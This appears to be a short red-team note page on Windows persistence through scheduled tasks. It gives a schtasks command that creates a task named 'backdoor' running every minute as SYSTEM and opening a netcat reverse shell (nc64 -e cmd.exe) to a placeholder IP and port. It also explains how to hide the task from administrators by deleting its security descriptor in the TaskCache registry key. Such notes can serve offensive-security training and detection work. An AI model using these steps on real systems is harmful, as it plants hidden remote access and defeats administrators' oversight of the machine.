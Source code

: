 ```yaml
---
category: Uncategorized
tags: []
---
```

### Scheduling tasks
- Create a task that runs every minutes and runs a reverse shell
```powershell
# Create a task
schtasks /create /sc minute /mo 1 /tn backdoor /tr "c:\tools\nc64 -e cmd.exe <IP> <PORT>" /ru SYSTEM

# Check the task
schtasks /query /tn backdoor
```

### Hiding the task
- We can delete the security descriptor (SD) of the task so that no user, not even administrator can query this task.
- SD is an ACL that defines which users have access to the tasks.
- SD of tasks are stored at `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\backdoor` under a key named `SD`.
- Changing the value is only allowed by SYSTEM.